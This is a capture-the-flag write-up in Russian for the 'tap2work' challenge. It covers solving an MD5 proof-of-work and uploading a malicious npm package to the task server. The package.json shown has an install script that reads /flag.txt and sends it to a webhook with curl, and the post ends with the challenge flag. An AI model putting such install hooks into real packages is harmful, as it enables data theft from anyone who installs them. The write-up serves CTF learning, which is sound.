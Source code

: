 # tap2work

Прочитав исходный код, понимаем что приложение реализует некий POW с хэшами и после его прохождения устанавливает отправленный приложению npm модуль.
---

Начнём с реализации прохождения pow, при get запросе на сайт сервер устанавливает в куки **challenge** челендж нашей проверки.
```
app.get('/', (req, res) => {
  req.session.challenge = uuidv4();
  res.cookie('challenge', req.session.challenge);
```
При загрузке файла POST запросом, код проверяет что md5 хеш челенджа + нашего респонса начинаеться с пяти нулей
```
if (!md5(req.session.challenge + req.body.response).startsWith('00000')) {
     result = 'POW check failed';
```
Напишем функцию которая решает POW
```
def solve_pow(challenge):
    for i in itertools.count():
        candidate = challenge + str(i)
        hash_result = hashlib.md5(candidate.encode()).hexdigest()
        if hash_result.startswith('00000'):
            return str(i)
```

---
Теперь напишем наш npm модуль, который при установке будет отправлять данные не вебхук
```
  "name": "flag",
  "version": "1.0.0",
  "scripts": {
    "install": "cat /flag.txt > /tmp/flag && curl https://webhook/flag=$(cat /tmp/flag)"
```

Запаковываем его в .gz и отправляем на сервер, ждём флаг на вебхуке

```
    tgz_file = 'flag-1.0.0.tgz'
    create_tgz(package_dir, tgz_file)

    url = 'http://tap2work.tasks.2025.ctf.cs.msu.ru/'
    session = requests.Session()

    response = session.get(url)
    challenge = session.cookies.get('challenge')

    pow_response = solve_pow(challenge)

    files = {
        'module': (tgz_file, open(tgz_file, 'rb'), 'application/gzip')
    }

    data = {
        'response': pow_response
    }

    session.post(url, files=files, data=data)
```
---
# Flag: MSKCTF{enr011_y04r_Own_cryptO_tO_npm}

